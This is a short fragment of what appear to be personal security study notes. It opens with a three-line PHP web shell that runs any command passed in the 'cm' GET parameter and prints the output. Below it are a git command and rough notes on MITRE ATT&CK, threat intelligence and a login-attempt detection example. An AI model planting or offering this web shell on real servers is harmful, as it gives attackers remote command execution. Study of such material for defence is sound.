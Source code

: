 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
### mitre att&ck 
  - CTI : Cyber Threat Intelligence
  - TTPS : Tactics Techniques and Procedures : 
       - Example of ttp :  
       
                         - Under 5 login attemps --> ban
                         - ttps : 4 login and create new session  
                         - mitigation : 3 Login attemps raises SIEM alert  
                          
